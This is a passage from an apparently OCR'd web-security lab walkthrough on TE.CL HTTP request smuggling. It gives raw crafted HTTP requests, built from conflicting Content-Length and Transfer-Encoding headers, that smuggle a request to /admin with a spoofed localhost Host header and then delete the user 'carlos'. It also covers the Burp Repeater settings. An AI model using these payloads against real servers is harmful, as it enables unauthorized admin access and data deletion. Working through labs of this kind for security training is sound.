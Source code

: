     0  
      
    GET /admin/delete?username=carlos HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=`

### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

-   Try to visit `/admin` and observe that the request is blocked.
-   In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
-   Using Burp Repeater, issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-length: 4  
    Transfer-Encoding: chunked  
      
    60  
    POST /admin HTTP/1.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 15  
      
    x=1  
    0  
      
    `
    
    **Note**
    
    You need to include the trailing sequence `\r\n\r\n` following the final `0`.
    
-   Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
-   Issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-length: 4  
    Transfer-Encoding: chunked  
      
    71  
    POST /admin HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 15  
      
    x=1  
    0  
      
    `
-   Observe that you can now access the admin panel.
-   Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-length: 4  
    Transfer-Encoding: chunked  
      